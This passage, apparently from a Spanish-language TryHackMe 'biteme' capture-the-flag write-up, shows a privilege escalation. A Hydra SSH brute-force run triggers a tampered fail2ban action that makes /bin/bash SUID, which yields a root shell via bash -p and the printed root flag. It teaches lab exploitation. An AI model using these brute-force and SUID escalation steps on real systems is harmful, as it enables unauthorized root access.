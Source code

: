 ```bash
fred@biteme:~$ sudo /bin/systemctl restart fail2ban
fred@biteme:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
Luego, simulamos un intento de fuerza bruta en SSH utilizando Hydra.
```bash
hydra -l jason -P /usr/share/wordlists/rockyou.txt ssh://10.10.118.236 -t 50
```
Finalmente, podemos verificar que el bit SUID del binario se haya activado correctamente. Una vez hecho esto, obtendremos acceso root y su correspondiente bandera
```bash
fred@biteme:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
fred@biteme:~$ /bin/bash -p
bash-4.4# cd /root
bash-4.4# cat root.txt
THM{0e355b5c907ef7741f40f4a41cc6678d}
```